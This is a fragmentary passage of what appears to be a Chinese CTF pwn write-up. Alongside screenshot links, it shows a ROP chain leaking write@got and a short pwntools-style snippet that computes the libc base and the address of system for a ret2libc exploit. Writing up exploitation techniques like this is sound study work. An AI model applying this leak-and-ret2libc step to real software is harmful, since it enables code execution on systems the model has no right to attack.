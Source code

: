 [![](assets/1700442742-75f357a1466f4352afaa5997a5caf694.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183749-5a5c3578-8535-1.png)

执行完g2

[![](assets/1700442742-09191894c478ec1efe919044be1f45b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183753-5d4870bc-8535-1.png)

[![](assets/1700442742-8fecfdc0a49d00e19b14a1a15970d6c6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183757-5f4f39e0-8535-1.png)

布置好了`write(1,write@got.plt,0x8)`​

跳转到x3 -> write，开始leak

[![](assets/1700442742-3c5001454652c044d1d31441a422969a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183801-618b118e-8535-1.png)

```plain
write_addr = uu64(r(6))
li('write_addr'+hex(write_addr))
libcbase = write_addr - libc.sym['write']
li('libcbase'+hex(libcbase))
system = libcbase + libc.sym['system']
li('system'+hex(system))
```
